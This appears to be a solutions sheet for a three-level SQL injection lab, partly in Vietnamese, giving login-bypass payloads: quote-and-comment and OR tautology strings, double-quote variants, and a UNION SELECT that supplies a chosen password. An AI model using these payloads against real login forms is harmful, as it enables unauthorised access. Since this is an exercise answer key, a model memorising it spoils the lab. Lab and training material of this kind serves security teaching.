 # Solutions

**Level1**: Login as admin
- username: `admin'-- `, `admin'#`, `admin' or '1'='1`

**Level2**: Login as admin (dấu ngoặc kép)
- username: `admin"--`, `admin"#`, `admin" or "1"="1`

**Level3**: Login as admin (Dùng UNION để control password trả về)
- username: `x' UNION SELECT 'admin','admin' --` 
- password: `admin`
